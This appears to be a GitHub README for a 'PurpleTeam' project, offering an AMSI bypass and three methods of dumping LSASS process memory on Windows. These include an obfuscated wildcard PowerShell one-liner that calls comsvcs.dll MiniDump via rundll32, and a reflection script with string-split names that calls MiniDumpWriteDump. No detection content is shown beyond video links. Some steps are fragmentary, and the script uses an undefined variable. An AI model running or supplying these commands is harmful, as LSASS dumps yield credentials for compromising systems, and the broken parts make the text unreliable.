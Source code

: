 # PurpleTeam
Execution Bypass AMSI and Lsass Dump Attacks and detection by SIEM

Bypass AMSI
-
Run file in powershell and then execute below command :
'AmsiUtils'

Lsass Dump via mini dump needs to run as admin access

Method 1 to Lsass Dump:
-
Minidump.exe <lsass PID>


Method 2 to lsass Dump:
-
&$env:???t??r???\*2\r[t-u]???[k-l]?2* $(gi $env:???t??r???\*2\c?m?[v-w]*l | % {$_.FullName }), `#-999999999999999999999999999999999999999999999999999999999999999999999999999999999976-decoy $(gps l?a*s).id c:\parastoo.tmp full; Wait-Process -Id (Get-Process rundll32).id ; (Get-Item -Path c:\dmp.tmp).Encrypt();


Method 3 to Lsass Dump:
-
1-Crete temp folder in drive C:

2-Execute below commands in powershell

$S = "C:\temp"
$P = (Get-Process lsass)
$A = [PSObject].Assembly.GetType('Syst'+'em.Manage'+'ment.Autom'+'ation.Windo'+'wsErrorRe'+'porting')
$B = $A.GetNestedType('Nativ'+'eMethods', 'Non'+'Public')
$C = [Reflection.BindingFlags] 'NonPublic, Static'
$D = $B.GetMethod('MiniDum'+'pWriteDump', $C) 
$PF = "$($P.Name)_$($P.Id).dmp"
$PDP = Join-Path $S $PF
$F = New-Object IO.FileStream($PDP, [IO.FileMode]::Create)
$R = $D.Invoke($null, @($P.Handle,$G,$F.SafeFileHandle,[UInt32] 2,[IntPtr]::Zero,[IntPtr]::Zero,[IntPtr]::Zero))
$F.Close()



https://github.com/ParastouRazi/PurpleTeam/assets/85788536/f031c264-c4f9-4fcb-8bee-17badf0866b0



See below link to view execution 

https://www.youtube.com/watch?v=Nfh9EEJ8wcw
-




